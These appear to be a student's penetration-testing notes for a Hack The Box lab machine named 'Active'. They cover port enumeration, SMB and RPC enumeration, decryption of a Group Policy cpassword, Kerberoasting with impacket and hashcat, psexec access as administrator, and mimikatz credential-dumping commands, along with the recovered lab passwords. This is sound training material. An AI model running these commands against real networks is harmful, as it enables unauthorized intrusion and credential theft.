 ### Enumeration
```
IP=10.10.10.10
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 53
	- DNS
- 88
	- kerberos
- 135
	- RPC
- 139
	- RPC
- 389
	- Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
- 445
	- smb
- 464
	- kpasswd5
- 593
	- RPC
- 636
	- tcpwrapped
- 3268
	- Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
- 3269
	- tcpwrapped
- 5722
	- RPC
- 9389
	- .NET Message Framing
- 47001
	- RPC
- 49152-49158
	- RPC
- 49169
	- RPC
- 49170
	- RPC
- 49179
	- RPC
### Foothold
- RPC/ SMB
	- enum4linux $IP
	- crackmapexec smb $IP -u guest -p "" --rid-brute
	- crackmapexec smb $IP -u "" -p "" --pass-pol
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- ADMIN$  C$  IPC$  NETLOGON SYSVOL 
		- Replication (READ)
			- `Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml
				- `active.htb\SVC_TGS:edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
				- cpassword decrypt
					- gpp-decrypt PASSWORD
						- GPPstillStandingStrong2k18
		- Users 
	- nmap --script smb-vuln* -p135,139,445 $IP
- SVC_TGS - GPPstillStandingStrong2k18
	- crackmapexec smb $IP -u SVC_TGS -p GPPstillStandingStrong2k18 --shares
		- READ NETLOGON SYSVOL Replication Users
		- Users
			- Nothing
	- impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
		- active/CIFS hash
		- Hash says administrator
		- hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
			- Ticketmaster1968
- CIFS - Ticketmaster1968
	- crackmapexec smb $IP -u administrator -p Ticketmaster1968 --shares
		- READ WRITE NETLOGON SYSVOL Replication Users
	- impacket-psexec active.htb/administrator@10.10.10.100
		- Able to get access as root
### PE
#### Windows
- USERNAME
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned